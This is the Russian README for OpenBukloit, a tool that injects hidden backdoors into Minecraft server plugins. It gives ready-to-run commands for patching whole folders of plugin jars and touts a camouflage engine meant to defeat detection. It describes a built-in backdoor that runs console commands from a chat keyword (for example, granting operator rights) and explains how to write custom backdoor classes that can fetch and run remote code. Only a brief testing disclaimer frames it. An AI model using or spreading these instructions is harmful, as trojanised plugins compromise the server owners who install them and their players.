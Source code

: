 <div align="center"><h1>OpenBukloit - Инжектор бекдоров для Minecraft плагинов</h1></div>

<div align="center"><img alt="Logo" src="../logo.png"/></div>

<div align="center">
    <a href="https://github.com/VoxelHax/OpenBukloit/issues"><img alt="Open issues" src="https://img.shields.io/github/issues-raw/VoxelHax/OpenBukloit"/></a>
    <a href="https://github.com/Voxelhax/OpenBukloit/releases/latest"><img alt="GitHub downloads" src="https://img.shields.io/github/downloads/VoxelHax/OpenBukloit/total"></a>
    <img alt="Code size" src="https://img.shields.io/github/languages/code-size/VoxelHax/OpenBukloit"/>
    <a href="https://www.codefactor.io/repository/github/voxelhax/openbukloit"><img alt="CodeFactor" src="https://www.codefactor.io/repository/github/voxelhax/openbukloit/badge"/></a>
    <a href="https://discord.gg/xtaktPTzYp"><img alt="Discord" src="https://img.shields.io/discord/928214827095175199"></a>
</div>

<div align="center">
    <a href="https://github.com/Voxelhax/OpenBukloit/releases/latest"><img alt="Download" src="https://img.shields.io/badge/-СКАЧАТЬ_ПОСЛЕДНИЙ_РЕЛИЗ_(КЛИК)-blue?style=for-the-badge"/></a>
</div>

<br>

<hr>

**Языки: [English](../README.md), [Русский](README_RU.md), [Українська](README_UA.md)**

**OpenBukloit** — современный и мощный универсальный инжектор бекдоров, совместимый со всеми Bukkit/Spigot/Paper/и т.д. плагинами. Его особенностью является возможность интеграции с абсолютно любым плагином без необходимости каждый раз модифицировать бекдор. Более того, он обеспечивает мощный движок камуфляжа, что делает практически невозможным его поиск без достаточных знаний или продвинутых автоматизированных инструментов. OpenBukloit был разработан для тестирования систем безопасности серверов Minecraft, Команда VoxelHax не несет ответственности за его неправомерное использование.

Это продолжение проекта **[Bukloit](https://github.com/Rikonardo/Bukloit)**, в котором мы учли все проблемы предыдущего проекта и использовали совершенно другой подход к разработке.

## Возможности OpenBukloit
- **Полная поддержка Bukkit и его форков на любой версии Minecraft.**
- **Поддержка пользовательских бекдоров.**
- **Автоматическая загрузка JDK, поэтому вам не нужно заботиться о совместимости версии Java.**
- **Мощный камуфляжный движок, усложняющий поиск бекдора в плагине.**

## Установка
Для использования OpenBukloit у вас должна быть установлена любая версия Java (но не ниже 8). Jar-файл OpenBukloit можно загрузить с [вкладки релизов](https://github.com/Voxelhax/OpenBukloit/releases/latest). OpenBukloit не требует никаких дополнительных действий, просто поместите файл jar куда-нибудь и используйте его из командной строки.

## Использование
Чтобы запустить OpenBukloit, откройте командную строку в каталоге, где находится jar-файл OpenBukloit и введите:

```sh
java -jar OpenBukloit.jar
```

После имени файла jar вы можете передать некоторые аргументы для настройки инжектора:

| Короткий аргумент | Длинный аргумент | Описание                                                                                                                                                                                         | Тип      |
|-------------------|------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------|
| -e                | --exploit        | Путь к пользовательскому скомпилированному файлу .class или к файлу исходного кода .java, который будет использоваться в качестве бекдора.<br />**По умолчанию используется встроенный бекдор.** | Значение |
| -m                | --mode           | Режим. Может быть одиночным/множественным.<br />**По умолчанию: <ins>multiple</ins>.**<br />В множественном режиме изменяет все файлы в указанной папке. В одиночном - только указанный файл.    | Значение |
| -i                | --input          | Путь к входной папке/файлу (зависит от режима).<br />**По умолчанию: <ins>in</ins> (<ins>in.jar</ins> если режим одиночный).**                                                                   | Значение |
| -o                | --output         | Путь к выходной папке/файлу (зависит от режима).<br />**По умолчанию: <ins>out</ins> (<ins>out.jar</ins> если режим одиночный).**                                                                | Значение |
| -r                | --replace        | Заменять выходной файл, если он уже существует.                                                                                                                                                  | Флаг     |
|                   | --no-camouflage  | Не использовать камуфляж (может быть полезным, если камуфляж не работает должным образом из-за обфускации плагина).                                                                              | Флаг     |
|                   | --class-name     | **Работает только с флагом `--no-camouflage`!** Задать кастомное название класса эксплоита (может включать название пакета, например: `com.voxelhax.OpenBukloitExploit`).                        | Значение |
|                   | --method-name    | **Працює тільки з флагом `--no-camouflage`!** Задать кастомное название для метода `inject` в классе эксплоита.                                                                                  | Значение |

Но этих аргументов недостаточно для запуска OpenBukloit. Вы также должны указать параметры бекдора. Поскольку OpenBukloit поддерживает внедрение пользовательских бекдоров, вы должны передать дополнительные аргументы, которые требуются для используемого бекдора.

## Встроенный эксплоит

По умолчанию OpenBukloit внедряет встроенный бекдор. Это простой бекдор, который позволяет вам выполнять любые команды из консоли, написав специальное ключевое слово перед командой в чате.

Параметры встроенного бекдора:

| Длинный аргумент | Описание                                                   |
|------------------|------------------------------------------------------------|
| --key            | Ключевое слово, запускающее выполнение консольной команды. |

Использование в игре ключа, установленного на "hackthisserver":

```
hackthisserver op MyName
```

Это сообщение, отправленное в чат, будет выполнено как консольная команда и даст ОП игроку MyName.

**Вот несколько примеров использования OpenBukloit со встроенным бекдором:**

1. Пропатчить все .jar файлы с ключом "#console" из папки "in" и сохранить их в папку "out" без замены.

```sh
java -jar OpenBukloit.jar -m multiple -i "in" -o "out" --key "#console"
```

2. Пропатчить все файлы с ключом "hacktheserver" из папки "in" и сохранить их в папку "out" с заменой.

```sh
java -jar OpenBukloit.jar -m multiple -i "in" -o "out" --key "hacktheserver" -r
```

3. Пропатчить один файл "PluginName.jar" с ключом "#console" и сохранить его как файл "Output.jar" с заменой.

```sh
java -jar OpenBukloit.jar -m single -i "PluginName.jar" -o "Output.jar" --key "#console" -r
```

4. Пропатчить один файл "PluginName.jar" с ключом "#console" и сохранить его как файл "Output.jar" с заменой. Не использовать камуфляж и назвать класс эксплоита "com.voxelhax.OpenBukloitExploit".

```sh
java -jar OpenBukloit.jar -m single -i "PluginName.jar" -o "Output.jar" --key "#console" -r --no-camouflage --class-name "com.voxelhax.OpenBukloitExploit"
```

*Убедитесь, что вы указываете номер версии после названия OpenBukloit. Например, если вы скачали версию `OpenBukloit-1.0.12`, обязательно используйте имя `OpenBukloit-1.0.12.jar` в команде, а не просто `OpenBukloit.jar`.*

## Написание пользовательского эксплоита

Вы также можете написать свой собственный бекдор. Это должен быть класс с методом `public static void inject(JavaPlugin args)` (JavaPlugin из Bukkit API).

Вот простой пример:

```java
import org.bukkit.plugin.java.JavaPlugin;

public class MyBackdoor {
    public static void inject(JavaPlugin args) {
        System.out.println("Hello, world!");
    }
}
```

Метод `inject` будет выполнен после метода `onEnable` плагина. Вы можете делать здесь все, что хотите, включая загрузку и запуск произвольного кода из Интернета.

Но вы должны знать, что есть некоторые ограничения:
- В настоящее время вы не можете использовать вложенные классы, в файле эксплоита должен быть только один класс.
- Вы не должны ссылаться на свой класс эксплоита внутри него, например, использовать его как параметры метода, как возвращаемое значение или как тип поля.

Вы можете использовать внешние параметры из командной строки, используя %плейсхолдеры%, они будут подставлены в процессе инжекта:

```java
import org.bukkit.plugin.java.JavaPlugin;

public class MyBackdoor {
    public static void inject(JavaPlugin args) {
        System.out.println("Hello, %name%!");
    }
}
```

Затем вы можете заинжектить бекдор с помощью команды:

```sh
java -jar OpenBukloit.jar -e MyBackdoor.java --name world
```

Обратите внимание, что мы можем передать наш бекдор в OpenBukloit без компиляции, и он автоматически скомпилирует его с наличием API Spigot в пуле классов во время компиляции.
